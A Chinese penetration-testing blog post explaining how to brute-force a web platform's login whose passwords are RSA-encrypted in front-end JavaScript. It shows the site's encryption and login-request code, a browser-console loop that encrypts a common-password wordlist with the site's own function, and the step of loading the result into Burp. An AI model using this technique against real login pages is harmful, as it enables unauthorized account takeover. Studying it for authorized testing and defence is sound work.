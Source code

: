 ```yaml
---
layout: post
title:  "平台登陆密码请求加密爆破"
date:   2020-05-27 17：49
categories: [pentest]
tags: web渗透
---
```


<!-- more -->

## 发现加密请求js脚本

对浏览器前端进行审计，发现了加密的js

```javascript
e.encryptedString = function (t, n) {
var i = [
],
a = n.length,
r = 0;
while (r < a) i[r] = n.charCodeAt(r),
r++;
while (i.length % t.chunkSize != 0) i[r++] = 0;
var c,
o,
s,
u = i.length,
l = '';
for (r = 0; r < u; r += t.chunkSize) {
for (s = new h, c = 0, o = r; o < r + t.chunkSize; ++c) s.digits[c] = i[o++],
s.digits[c] += i[o++] << 8;
var d = t.barrett.powMod(s, t.e),
f = 16 == t.radix ? e.biToHex(d)  : e.biToString(d, t.radix);
l += f + ' '
}
return l.substring(0, l.length - 1)
}
```

打下断点查看变量，发现了明文和密文变量名

![1571819723306](培训平台登陆密码请求加密爆破.assets/1571819723306.png)

找到js内发送请求处

```javascript
c['a'].get(''.concat(u, '/keyPair'));
case 2:
return r = n.sent,
o = r.exponent,
s = r.modulus,
d = l.getKeyPair(o, '', s),
h = l.encryptedString(d, e),
n.prev = 7,
n.next = 10,
c['a'].post(''.concat(u, '/login'), {
account: t,
password: h
});
```

打下断点查看变量

![1571819882865](培训平台登陆密码请求加密爆破.assets/1571819882865.png)

![1571819920248](培训平台登陆密码请求加密爆破.assets/1571819920248.png)

发现在js里面就是在这里生成密文并发送到服务器端

![1571820028796](培训平台登陆密码请求加密爆破.assets/1571820028796.png)

## 调用js生成加密密码字典

在控制台内申明一个明文字典数组

```javascript
var  A = ['123456','password','123456789','12345678','12345','111111','1234567','sunshine','qwerty','iloveyou','princess','admin','welcome','666666','abc123','football','123123','monkey','654321','!@#$%^&*','charlie','aa123456','donald','password1','qwerty123','zxcvbnm','121212','bailey','freedom','shadow','passw0rd','baseball','buster','daniel','hannah','thomas','summer','george','harley','222222','jessica','ginger','letmein','abcdef','solo','jordan','55555','tigger','joshua','pepper','sophie','1234','robert','matthew','12341234','andrew','lakers','andrea','1qaz2wsx','starwars','ferrari','cheese','computer','corvette','mercedes','blahblah','maverick','hello','nicole','hunter','1989','amanda','1990','jennifer','banana','chelsea','ranger','1991','trustno1','merlin','cookie','ashley','bandit','killer','aaaaaa','1q2w3e','zaq1zaq1','test','hockey','dallas','whatever','admin123','pussy','liverpool','querty','william','soccer','london','1992','biteme']
```

声明一个空数组作为密文字典

```javascript
var dist = new Array()
```

调用加密方法将明文字典加密为密文字典

```js
for(i=0,len=A.length;i<len;i++){
  dist[i]=l.encryptedString(d, A[i])
}console.log(dist)
```

然后在控制台内就获得了加密后的字典文件

![1571820473809](培训平台登陆密码请求加密爆破.assets/1571820473809.png)

直接使用加密后的字典文件放入burp里面进行爆破就可以了

---

这套操作也适用于请求加密的情况，可以直接替换掉加密请求达到请求篡改的目的



